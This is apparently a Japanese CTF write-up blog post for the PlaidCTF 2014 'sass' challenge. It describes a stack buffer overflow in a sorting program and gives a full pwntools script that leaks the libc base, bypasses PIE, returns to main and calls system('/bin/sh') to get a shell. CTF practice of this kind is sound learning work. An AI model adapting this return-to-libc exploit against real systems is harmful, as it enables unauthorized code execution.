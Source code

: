 ```yaml
---
layout: post
alias: "/blog/2016/09/15/plaidctf-2014-sass/"
date: "2016-09-15T15:43:57+09:00"
tags: [ "competitive", "writeup", "pwn", "plaidctf" ]
"target_url": [ "https://github.com/ctfs/write-ups-2014/tree/master/plaid-ctf-2014/sass" ]
---
```


# Plaid CTF 2014: sass

手元で解いた。
練習用に鯖を建てていたのだが、こちらに投げたら通らず。
stack上の値を眺めながらいい感じにするだけの問題であるので、実質解き直しかつそこまでするほどの楽しさはなく、鯖は放棄した。

## solution

入力された数値($10$や$16$進の諸々の形式をいい感じに読んでくれる)をstackのbufferに積み(正確には$0$で初期化してあるところに足し引き)、(符号付きで)sortし、出力するプログラム。
bofがあって、入力した数値でreturn addressを触れる。
libcのbase addressを得つつreturn-to-mainしてから再度bofでsystemを呼ぶ。
PIEではあるが、`get_pc_thunk.bx`の跡が残っているのでこれに差分を与えてmainのaddressを作ればよい。

``` c++
#!/usr/bin/env python2
from pwn import * # https://pypi.python.org/pypi/pwntools
context.log_level = 'debug'

elf = ELF('./sass')
libc = ELF('/lib/i386-linux-gnu/libc.so.6')
p = process('./sass')

p.recvuntil('Enter your numbers:\n')
for i in range(32):
    p.sendline(str(0x80000000))
p.sendline(str(0))
p.sendline(str(- 0x250))
p.sendline(str(- 11)) # main
p.sendline(str(0x7fffffff + 2))
p.sendline(str(0))
p.sendline(str(0))
p.sendline(str(0x7fffffff + 2))
p.sendline(str(0)) # __libc_start_main
p.sendline(str(0x7fffffff + 3)) # argc
p.sendline(str(0)) # argv
p.sendline(str(0)) # envp
p.sendline()
p.recvuntil('OK, here you are:\n')
for i in range(32):
    assert int(p.recvline(), 16) == 0x80000000
libc_base = int(p.recvline(), 16) - (libc.symbols['__libc_start_main'] + 247)
log.info('libc base: %#x', libc_base)
libc_static = int(p.recvline(), 16)
assert int(p.recvline(), 16) == libc_static
assert int(p.recvline(), 16) == libc_static + 0x3dc
log.info('libc static: %#x', libc_static)
argv = int(p.recvline(), 16)
log.info('argv: %#x', argv)
envp = int(p.recvline(), 16)
log.info('envp: %#x', envp)
program_base = int(p.recvline(), 16)
log.info('program base: %#x', program_base)
assert int(p.recvline(), 16) == program_base + elf.symbols['main']
for i in range(3):
    assert int(p.recvline(), 16) == 0x7fffffff

p.recvuntil('Enter your numbers:\n')
for i in range(32):
    p.sendline(str(0x80000000))
p.sendline(str(- 0x80000000 - libc_static - 0x3dc))
p.sendline(str(- 0x80000000 - argv))
p.sendline(str(- 0x80000000 - envp))
p.sendline(str(- 0x80000000 - program_base))
p.sendline(str((0x7fffffff - libc_base - libc.symbols['system']      ) % 0x100000000))
p.sendline(str((0x7fffffff - libc_base - libc.symbols['system'] - 1  ) % 0x100000000))
p.sendline(str((0x7fffffff - libc_base - next(libc.search('/bin/sh'))) % 0x100000000))
p.sendline()
p.recvuntil('OK, here you are:\n')

time.sleep(1)
p.sendline('id')
p.interactive()
```
